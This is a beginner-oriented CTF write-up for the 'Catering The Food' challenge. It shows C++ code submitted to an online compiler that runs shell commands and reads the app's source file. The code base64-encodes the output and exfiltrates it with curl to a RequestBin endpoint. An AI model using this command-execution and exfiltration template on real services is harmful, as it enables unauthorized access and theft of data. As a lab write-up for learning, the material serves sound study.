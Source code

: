 ```yaml
---
title: "Catering The Food"
date: 2025-04-10 12:29:58 +0200
categories: writeups ctf
tags: ctf rce requestbin
description: Writeup of the Catering The Food challenge from the Breach CTF.
image: ../assets/images/posts/logos/breach-ctf.png
---
```

## Introduction

#### **Author**: Álvaro Bernal (aka. **trr0r**)

This writeup walks through the challenge **Catering The Food** from the [Breach CTF](https://ctf.breachers.in/). It is intended for **beginners** and includes detailed descriptions of each step, along with commentary for every screenshot. I believe the proposed solution is not the intended path for the challenge, but exploring alternative exploitation techniques is **valuable**, as it broadens our understanding and reveals a range of **potential attack vectors**.

___
### Request Bin

First, we need to go to [Requestbin](https://requestbin.whapi.cloud/) and create a **public URL** where we will be receiving the **output** of the commands we execute.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406202922.png>)

By clicking on `Create a RequestBin`, a public URL endpoint is generated. We’ll copy this URL to the clipboard, since it will be required in subsequent steps.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406203025.png>)
### Receiving `curl` command

The code snippet demonstrates using the `system()` function in C++ to run a `curl` command:

```cpp
#include <iostream>
#include <iostream>
#include <cstdlib>  // To use system()

// Author: Álvaro Bernal (aka. trr0r)

int main() {
    // Declare curl command
    const char* command = "curl http://<your-request-bin-url>/testingifcurlworks";
    
    // Make a system call to execute curl command
    int result = system(command);
    return 0;
}
```

The previously written code will be pasted into the website, which provides an environment for executing C++ code directly.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406203526.png>)

Shortly after, a GET request will be triggered and received at the previously created RequestBin endpoint (public URL).

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406203348.png>)
### Script to receive commands' output

This stage of the challenge becomes more **complex**. Previously, it was enough to confirm that the target system was susceptible to **remote command execution**. Now, however, we need to ensure we can execute **arbitrary commands reliably**. To facilitate this and minimize potential errors, we’ll implement two helper functions that will **streamline** the command injection process and improve flexibility:

- `base64_encode`: Encodes command output to Base64.
- `url_escape`: Escapes characters to make the data safe for URLs.

In summary, the code that we will need to input into the webpage to **execute arbitrary commands seamlessly**, without any complications, is as follows:

```cpp
#include <iostream>
#include <cstdio>
#include <cstdlib>
#include <string>

// Author: Álvaro Bernal (aka. trr0r)

// Function to manually encode a string in Base64
std::string base64_encode(const std::string& input) {
    const std::string base64_chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/";
    std::string encoded;
    int val = 0, valb = -6;
    for (unsigned char c : input) {
        val = (val << 8) + c;
        valb += 8;
        while (valb >= 0) {
            encoded.push_back(base64_chars[(val >> valb) & 0x3F]);
            valb -= 6;
        }
    }
    if (valb > -6) encoded.push_back(base64_chars[((val << 8) >> (valb + 8)) & 0x3F]);
    while (encoded.size() % 4) encoded.push_back('=');
    return encoded;
}

// Function to escape special characters for URL encoding
std::string url_escape(const std::string& str) {
    std::string escaped;
    for (char c : str) {
        if (c == ' ') escaped += "+";  // Replace space with "+"
        else if (c == '&') escaped += "%26";  // Escape "&"
        else if (c == '?') escaped += "%3F";  // Escape "?"
        else if (c == '=') escaped += "%3D";  // Escape "="
        else if (c == '%') escaped += "%25";  // Escape "%"
        else if (c == '/') escaped += "%2F";  // Escape "/"
        else if (c == '#') escaped += "%23";  // Escape "#"
        else escaped += c;  // Add characters as-is if they are not special
    }
    return escaped;
}

int main() {
    FILE* fp = popen("whoami", "r");  // Execute "whoami" command - Modifiy as your needs
    if (fp == nullptr) return 1;  // Exit if command execution fails

    char buffer[512];
    std::string output;
    while (fgets(buffer, sizeof(buffer), fp)) {
        output += buffer;  // Add each line of the output to the string
    }
    fclose(fp);  // Close the file pointer

    if (!output.empty() && output[output.size() - 1] == '\n') output.pop_back();  // Remove newline character at the end

    std::string encoded_output = base64_encode(output);  // Encode the output in Base64
    std::string escaped_output = url_escape(encoded_output);  // Escape the Base64 encoded output for URL

    // Prepare the curl command with the Base64 encoded and URL escaped output
    std::string curl_command = "curl \"http://<your-request-bin-url>/?output=" + escaped_output + "\"";
    system(curl_command.c_str());  // Execute the curl command

    return 0;
}
```
### Getting comands' output

The procedure executed by the C++ script is outlined below.
1. Run `whoami`
2. Encode in Base64
3. Escape for URL
4. Send with `curl`.

Upon completion, we will see a **base64-encoded** string being received at our RequestBin endpoint.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406210403.png>)

___
### Getting the flag

By decoding the **base64-encoded** content, we will uncover the **username** under which the remote commands are being executed.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406210349.png>)

Next, we will modify the previously shared code slightly to execute the following command, which will enable us to **list all directories and files from the system's root**.

```bash
ls -la
```

By repeating the same process as before (decoding the base64-encoded string received at the RequestBin), we will obtain the **directory structure**.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406210445.png>)

Next, we will make another modification to the code, this time to display the contents within the **app directory**.

```bash
ls -la /app/
```

Upon inspection, we will observe a directory (**/static**) and a file (**WEB_API.py**), the latter of which will stand out since it is responsible for serving the website.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406210558.png>)

If we try to access the content of the file, we will observe that **no request** is made to our RequestBin endpoint.

```bash
cat /app/WEB_API.py
```

This problem may occur because the file's content is **too large**, causing the URL to become **too long**, which prevents it from being sent due to the character limit. As an alternative, we will run the following command to display the **first 20 lines of the file**.

```bash
head -n 20 /app/WEB_API.py
```

At this point, we will notice that we receive a request (which is quite long). After decoding its content, we will discover that we have successfully accessed **the flag**, completing the challenge in a fully **valid alternative way**.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406210752.png>)

___
## Final Notes

This challenge tested basic concepts in **RCE**, exfiltration techniques via **HTTP requests**, and basic reconnaissance within a containerized environment. For **beginners**, it's a great introduction to chaining small steps into a successful exploit path.
